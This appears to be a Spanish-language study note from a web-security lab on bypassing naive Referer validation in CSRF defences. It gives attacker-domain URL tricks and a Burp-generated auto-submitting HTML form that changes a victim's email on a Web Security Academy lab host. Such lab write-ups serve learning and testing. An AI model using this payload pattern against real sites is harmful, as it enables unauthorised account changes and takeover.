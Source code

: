 #### CSRF con broken Referer validation

Algunas aplicaciones validan el header `Referer` de una manera ingenua que se puede omitir. Por ejemplo, si la aplicación valida que el dominio en el `Referer` comience con el valor esperado, entonces el atacante puede colocar esto como un subdominio de su propio dominio:

```bash
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la aplicación simplemente valida que `Referer` contenga su propio nombre de dominio, el atacante puede colocar el valor requerido en otra parte de la URL:

```bash
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

**Puede anular este comportamiento asegurándose de que la respuesta que contiene su exploit tenga el header `Referrer-Policy: unsafe-url`**

**EJEMPLO**

una accion de cambio de contraseña tiene una validacion del header referer, valida de que el dominio este su valor:

![[Pasted image 20230208164802.png]]

si le agregamos al dominio como un parametro GET ya nos acepta:

![[Pasted image 20230208164852.png]]

entonces la PoC quedaria asi:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0aad00fb03ccd03ec395b08900b100b2.web-security-academy.net')</script>
    <form action="https://0aad00fb03ccd03ec395b08900b100b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hack&#64;you&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

agregamos el parametro GET en el tercer valor del **pushState()**:

```html
<script>history.pushState('', '', '/?0aad00fb03ccd03ec395b08900b100b2.web-security-academy.net')</script>
```
